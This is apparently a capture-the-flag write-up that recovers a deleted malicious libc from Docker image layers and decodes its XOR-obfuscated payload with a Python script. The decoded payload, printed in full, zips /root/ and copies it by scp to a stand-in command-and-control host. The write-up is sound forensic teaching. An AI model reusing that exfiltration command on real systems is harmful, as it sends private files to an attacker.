








# [Hard] Protect the Supply (250 points)

> After the day that the A.I went rouge everything has changed in our society even simple and micro services have changed. Our Hacky University and our Hacky Factory has changed and something looks out of place...
> 
> Can you see why we no longer feel at home in our own container?
> 
> Run docker run -ti hackazon/micro_ghost /bin/sh to get started
> 
> Update: 2022-07-07 15:30 CEST, bug fix - container now accesible for players

[Video Writeup](https://youtu.be/gYgFK-NbtH4): https://youtu.be/gYgFK-NbtH4

### Protect the Supply

> Can you identify why ever since the attack our container felt off?

Let's run the docker container that has been provided.



If you analyse the files and folders in the container, you will notice that it is a standard linux image. All files are normal except the ones in `/opt` directory. It contains two extra files: `ld-linux-x86_64.so.2` and `libc.so.evil.6`. This already gives us a hint at what to look for. libc files are usually named `libc.so.6` but since it's named `libc.so.evil.6` here, there must definitely be something fishy going on. You can mount a local directory as a volume using `-v $PWD:/ctf` when running the docker container and copy the files from `/opt` to work with them locally.

I analysed the binary thoroughly using disassemblers like IDA and Ghidra but found nothing out of the ordinary. I also found that the two binaries had nothing different in them in comparison with the correct version of `libc.so.6` and `ld-linux-x86_64.so.2`. They were perfect matches with nothing tampered! So, why was the file named evil and what was I missing?

Let's take a look at the steps to build the docker container using `docker history hackazon/micro_ghost --no-trunc`.



(We need to read the log from bottom to top to make sense of it)

This is what happens briefly:

- `file:11157b07dde10107f3f6f2b892c869ea83868475d5825167b5f466a7e410eb05` is copied into container root directory. This is just docker setting up the linux container filesystem
- `file:1d19734b949df42e538d10ea3e6c9eb33e3f2064be2540a446c095ee007af323` is copied into `/lib/x86_64-linux-gnu/libc.so.evil.6` (this is the actual file we're looking for but as we shall see in the next steps, it gets deleted deliberately)
- `file:5f853a35eb22d7cd0b3789fdf55937ebf492d63386894ed02ab7d6fa7717ff30` is copied into `/opt/libc.so.6` (this is an actual libc file and is not tampered with)
- `file:46b15dd2b1c1b2421f8f66c0e0b1adbb2be1fa29bdfb24df21ab41a4393cc4ca` is copied into `/opt/ld-linux-x86-64.so.2` (this file is not tampered with either)
- file permissions is set to executable for `/lib/x86_64-linux-gnu/libc.so.evil.6`
- file `/opt/libc.so.6` is renamed to `/opt/libc.so.evil.6` (this is present to misguide us)
- `/lib/x86_64-linux-gnu/libc.so.evil.6` is executed. This is the malicious file we need take a look at
- `/lib/x86_64-linux-gnu/libc.so.evil.6` is deleted

At this point, we know by looking at the container build history that we must try and find the file `/lib/x86_64-linux-gnu/libc.so.evil.6`. However, since it is deleted from the container, we have no way of recovering it... or do we? 😉

At some point during the CTF while solving this challenge, I came across [this](https://github.com/wagoodman/dive) tool. This tool is quite insane and allows us to take a look at the files in the container filesystem at any step during its build. Let's explore our container using a tool and see if we can find the same results as we did with `docker history` above.

Follow the installation procedure in the repository and then run `sudo dive hackazon/micro_ghost`. This is how the interface would look like:



We can now explore what the container filesystem looked like at each step in its build. It can be seen that the file `/lib/x86_64-linux-gnu/libc.so.evil.6` was definitely added, executed and later removed. So, how do we recover this file if it was deleted? It should definitely not be possible for us to be able to access the file when it was deleted using `rm`, right? Well, lucky for us, we can in this particular case. Let's see how docker containers work.



As we're delving into docker intrinsics and how it manages its files for containers, I'm not going to try and explain all of it. A lot of good work has been done by other people in exploring these details. I learnt a lot about these details by reading many articles on `how are docker images stored in overlay2 filesystem`. [This](https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/) and many others do a great job at teaching about the same.

Now that we understand how the docker filesystem works, we know that the real `libc.so.evil.6` file that we're looking for is present somewhere within the directories where it stores images and container data on our host system. As mentioned in the articles, let's inspect our container and pinpoint the exact directory where the file we're looking for is present.

```bash
┌──(arrow) 💀 [~/Desktop/ctf/hackazon-deloitte-2022/protect-the-supply] 
└─$ sudo docker inspect hackazon/micro_ghost

...
        "GraphDriver": {
            "Data": {
                "LowerDir": "/var/lib/docker/overlay2/156888775e1a1cc4543ae18319e967556dc3c5d466303465a83e0d373346d13c/diff:/var/lib/docker/overlay2/b2f3c8e267cebbf568a66897ae50c71848c927486fdb9f20d0c28deeb9b97553/diff:/var/lib/docker/overlay2/fd0ca568d53f331fd92f21be9342a2ce680b111c2c2c6e21eb0d03dae74d846a/diff:/var/lib/docker/overlay2/e4fdc2830b1f10e95fc13769982c728fb02bcec034fedcb623dec657a27439f1/diff:/var/lib/docker/overlay2/f34c8467971f3f8f9a09e851952993f9e38a6d63b795aa61d8c1b2bd07c7a75d/diff:/var/lib/docker/overlay2/0243afd2682f997b906ced58c278efd6c8232d5ad1fac140318695e5a929e262/diff:/var/lib/docker/overlay2/92a83e22ecc4eb78985cc1d3fe2cf8cb9524bef3c77387df2aebca17c8c2d632/diff",
                "MergedDir": "/var/lib/docker/overlay2/85144761cf749fac9853033391fdf1304002391b935a723703409ec6460105a8/merged",
                "UpperDir": "/var/lib/docker/overlay2/85144761cf749fac9853033391fdf1304002391b935a723703409ec6460105a8/diff",
                "WorkDir": "/var/lib/docker/overlay2/85144761cf749fac9853033391fdf1304002391b935a723703409ec6460105a8/work"
            },
            "Name": "overlay2"
        },
...
```

What we need to look at is the "LowerDir" part. As mentioned above and like we did when reading the output of `docker history`, we need to look at the directories from bottom to top. As a test, we can see that the first command executed when building the container was to copy and init the linux filesystem in the root directory. Therefore, `/var/lib/docker/overlay2/92a83e22ecc4eb78985cc1d3fe2cf8cb9524bef3c77387df2aebca17c8c2d632/diff` should contain all the files and folders that are used for the same. Let's confirm it!



By listing the files and folders in that directory, I could see the basic linux filesystem files. This confirms what I mention above. Now, we need to find the directory where the actual evil libc file is stored. Since it was the second command executed when building the container, it most likely will be found in the second directory from the bottom `/var/lib/docker/overlay2/0243afd2682f997b906ced58c278efd6c8232d5ad1fac140318695e5a929e262/diff`.



Found it! Yes, that's the file we've been looking for. We can now analyse it with IDA/Ghidra and start the reversing part of this challenge.

There isn't much to the reversing part. A lot of data is stored into a byte/char array and passed into another function to perform an xor operation with a cyclic pattern. We can collect the data from the disassembly, xor it ourselves and retrieve what's being passed as a param to the system function call.





The resulting output gives us the flag once we do the simple reversing.

```
echo "Nope";v1="CTF{C0n7r0Ll1NG_";zip -r exf.zip /root/;scp exf.zip root@c2.maldomain.del:/yeet_data/;v2="5h3_5uppLy_";rm exf.zip;v3="Ch41n_15_7h3_K#Y!!!!}";echo "GG";
Really Not A MalwareTotally Not A Malware
```

**Flag:** `CTF{C0n7r0Ll1NG_5h3_5uppLy_Ch41n_15_7h3_K#Y!!!!}`

Script:

```py
s = """
0x0 = 4
0x1 = 2
0x2 = 9
0x3 = 0xe
0x4 = 0x42
0x5 = 0x43
0x6 = 0x2f
0x7 = 0xe
0x8 = 0x13
0x9 = 4
0xa = 0x43
0xb = 0x5a
0xc = 0x12
0xd = 0x50
0xe = 0x5c
0xf = 0x43
0x10 = 0x26
0x11 = 0x35
0x12 = 0x27
0x13 = 0x1a
0x14 = 0x25
0x15 = 0x51
0x16 = 0xf
0x17 = 0x56
0x18 = 0x15
0x19 = 0x51
0x1a = 0x2d
0x1b = 0xd
0x1c = 0x59
0x1d = 0x2f
0x1e = 0x26
0x1f = 0x3e
0x20 = 0x4b
0x21 = 0x5a
0x22 = 0x1b
0x23 = 8
0x24 = 0x1a
0x25 = 0x41
0x26 = 0x4c
0x27 = 0x13
0x28 = 0x4b
0x29 = 4
0x2a = 0x19
0x2b = 7
0x2c = 0x42
0x2d = 0x1b
0x2e = 8
0x2f = 0x11
0x30 = 0x4d
0x31 = 0x4e
0x32 = 0x13
0x33 = 0xe
0x34 = 1
0x35 = 0x15
0x36 = 0x4e
0x37 = 0x5a
0x38 = 0x1c
0x39 = 2
0x3a = 0x11
0x3b = 0x41
0x3c = 0x15
0x3d = 0x19
0x3e = 7
0x3f = 0x4f
0x40 = 0xb
0x41 = 8
0x42 = 0x11
0x43 = 0x41
0x44 = 0
0x45 = 0xe
0x46 = 0xe
0x47 = 0x15
0x48 = 0x33
0x49 = 2
0x4a = 0x53
0x4b = 0x4f
0x4c = 0x19
0x4d = 0
0x4e = 0xd
0x4f = 5
0x50 = 0x1a
0x51 = 0xc
0x52 = 0
0x53 = 8
0x54 = 0x18
0x55 = 0x4f
0x56 = 5
0x57 = 4
0x58 = 0x1b
0x59 = 0x5b
0x5a = 0x4e
0x5b = 0x18
0x5c = 0x1d
0x5d = 4
0x5e = 0x15
0x5f = 0x3e
0x60 = 0x1d
0x61 = 0
0x62 = 0x15
0x63 = 0
0x64 = 0x55
0x65 = 0x5a
0x66 = 0x17
0x67 = 0x50
0x68 = 0x5f
0x69 = 0x43
0x6a = 0x54
0x6b = 0xa
0x6c = 0x50
0x6d = 0x3e
0x6e = 0x54
0x6f = 0x17
0x70 = 0x14
0x71 = 0x11
0x72 = 0x2d
0x73 = 0x1b
0x74 = 0x3a
0x75 = 0x43
0x76 = 0x5a
0x77 = 0x10
0x78 = 0xb
0x79 = 0x41
0x7a = 4
0x7b = 0x1a
0x7c = 1
0x7d = 0x4f
0x7e = 0x1b
0x7f = 0xb
0x80 = 0x18
0x81 = 0x5a
0x82 = 0x17
0x83 = 0x51
0x84 = 0x54
0x85 = 0x43
0x86 = 0x22
0x87 = 0xa
0x88 = 0x5e
0x89 = 0x50
0x8a = 0xf
0x8b = 0x3d
0x8c = 0x5a
0x8d = 0x54
0x8e = 0x3e
0x8f = 0x55
0x90 = 4
0x91 = 0x52
0x92 = 0x3e
0x93 = 0x29
0x94 = 0x4e
0x95 = 0x38
0x96 = 0x40
0x97 = 0x43
0x98 = 0x4f
0x99 = 0x40
0x9a = 0x1c
0x9b = 0x40
0x9c = 0x54
0x9d = 4
0x9e = 2
0x9f = 0xa
0xa0 = 0x1f
0xa1 = 0x41
0xa2 = 0x43
0xa3 = 0x25
0xa4 = 0x36
0xa5 = 0x43
0xa6 = 0x5a
0xa7 = 0
""".strip().splitlines()

l = [0] * 257

for line in s:
  line = line.split()
  index = int(line[0], 16)
  value = int(line[-1], 16)
  l[index] = value

x = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaa'

# print(len(x))
# print(0xa7)

for i in range(0xa7):
  print(chr(l[i] ^ x[i]), end = '')

s = """
0x28 = 0x54
0x48 = 0x52
0x46 = 0x61
0x25 = 0x61
0x45 = 0x6c
0x24 = 0x6c
0x1d = 0x20
0x3d = 0x41
0x1c = 0x41
0x3c = 0x20
0x44 = 0x6c
0x41 = 0x4e
0x20 = 0x4e
0x40 = 0x6f
0x1f = 0x6f
0x3f = 0x74
0x1e = 0x74
0x3e = 0x20
0x27 = 0x6f
0x47 = 0x65
0x26 = 0x74
0x23 = 0x6c
0x43 = 0x79
0x22 = 0x79
0x42 = 0x20
0x21 = 0x20
0x1b = 0x20
0x3b = 0x4d
0x1a = 0x4d
0x3a = 0x61
0x19 = 0x61
0x39 = 0x6c
0x18 = 0x6c
0x38 = 0x77
0x17 = 0x77
0x37 = 0x61
0x16 = 0x61
0x36 = 0x72
0x15 = 0x72
0x35 = 0x65
0x14 = 0x65
0x34 = 0x0
0x13 = 0x0
""".strip().splitlines()

l = [0] * 1000

for line in s:
  line = line.split()
  index = int(line[0], 16)
  value = int(line[-1], 16)
  l[index] = value

print()

for i in l[::-1]:
  if i == 0:
    continue
  print(chr(i), end = '')
```
